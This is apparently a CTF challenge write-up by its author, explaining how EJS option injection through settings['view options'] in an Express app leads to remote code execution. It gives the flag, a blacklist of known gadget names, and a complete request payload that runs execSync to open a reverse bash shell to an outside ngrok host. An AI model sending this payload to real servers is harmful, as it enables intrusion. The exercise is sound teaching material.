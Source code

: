 # Express JavaScript Security

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{0h_n0_h0w_d1d_y0u_ch4ng3_my_0pt10ns}`

## Description

My first JavaScript project.

## Difficulty

Easy

## Deployment

`docker-compose up -d`

## Solution

["Vulnerable" code segment](https://github.com/mde/ejs/blob/633b5fbfb9e3aaeb31040fa0d5ee4cb9eb44f9d8/lib/ejs.js#L471-L475).

EJS lets you pass in options via the data object. This is documented behavior.

Normally, only the following *relatively* harmless options are allowed to be passed in the data object:

```javascript
var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];
// We don't allow 'cache' option to be passed in the data obj for
// the normal `render` call, but this is where Express 2 & 3 put it
// so we make an exception for `renderFile`
var _OPTS_PASSABLE_WITH_DATA_EXPRESS = _OPTS_PASSABLE_WITH_DATA.concat('cache');
```

But from the above code segment, `settings['view options']` can be used to pass any arbitrary option to EJS.

This can be chained with an RCE gadget (similar to the ones used to gain RCE after prototype pollution). However, most of the known RCE gadgets from online blogs are blacklisted:

```javascript
const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]
```

It is [known](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce) that `opts.escapeFunction` can be used as an RCE gadget [here](https://github.com/mde/ejs/blob/f818bce2a5b72866f205c9284e8257f2b155aa66/lib/ejs.js#L636-L641).

However, this option can also alternatively be passed via [`opts.escape`](https://github.com/mde/ejs/blob/f818bce2a5b72866f205c9284e8257f2b155aa66/lib/ejs.js#L519).

```javascript
options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
```

Payload (URL decoded):

`GET /greet?name=x&settings[view options][escape]=JSON.stringify;process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/8.tcp.ngrok.io/16180 0>&1"')&settings[view options][client]=1&font=x&fontSize=x HTTP/1.1`

## That GitHub Issue

Most participants would have noticed [this](https://github.com/mde/ejs/issues/735) GitHub issue during the competition (created 2 weeks before the competition).

I wrote this challenge way back in March 2023, and the original idea of this challenge was to find the `view options` sink. This was not documented anywhere (as far as I can tell) at that time.

![1.png](1.png)

I guess I was too late to the party. :(

Anyway, after seeing the issue, I added the `escapeFunction` blacklist so that the challenge would not be too easy. At the very least, solvers would have to read the source to find that `escapeFunction` can also be set through `opts.escape`.